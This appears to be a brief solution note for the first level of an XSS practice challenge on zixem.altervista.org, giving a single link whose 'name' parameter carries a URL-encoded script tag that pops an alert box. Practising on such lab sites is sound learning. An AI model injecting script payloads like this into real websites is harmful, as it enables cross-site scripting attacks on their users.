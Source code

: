 # XSS Level 1

## Link exploit

URL: `https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E`
